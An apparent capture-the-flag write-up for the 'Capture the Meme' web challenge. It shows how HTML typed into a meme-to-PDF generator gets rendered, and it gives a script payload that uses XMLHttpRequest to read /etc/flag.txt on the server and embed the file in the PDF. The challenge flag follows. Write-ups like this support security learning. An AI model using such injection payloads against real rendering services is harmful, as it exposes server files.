 <h1>Capture the Meme</h1>
<h4>Description: 
<p>Made this meme generator for ya :) hope you like some memes 
Note: Flag at /etc/flag.txt</p>
<h4>Category: Web</h4>
<h4>Link: http://3.129.60.206/</h4>

We are given an app which takes a picture and puts the two texts on the picture and returns a pdf.
If you enter a html tag then that tag is processed and is reflected on the pdf (The image link is available in script.js).
<br></br><img src='./images/Screenshot (103).png' /><br></br>
<br></br><img src='./images/Screenshot (104).png' /><br></br>

This means  we can use script tags too, so now we can use XMLHttpRequest object to read the local file.
Our payload
<h4>
  <script>
    x = new XMLHttpRequest; x.onload = function(){ document.write(this.responseText) }; x.open('GET', 'file:///etc/flag.txt'); x.send();
  </script>
</h4>

Send the above payload in the text and then try to export it. You will get the flag in the pdf(Some part of the flag might not be visible but it is still there so you need to copy all the text and then paste to see the complete flag)
<h4>FLAG: darkCON{wh4t_1f_1_t01d_u_h4v3_r1ght_f14g_0f_th1s_ch411}darkCON{wh4t_1f_1_t01d_u_h4v3_r1ght_f14g_0f_th1s_ch411}
</h4>
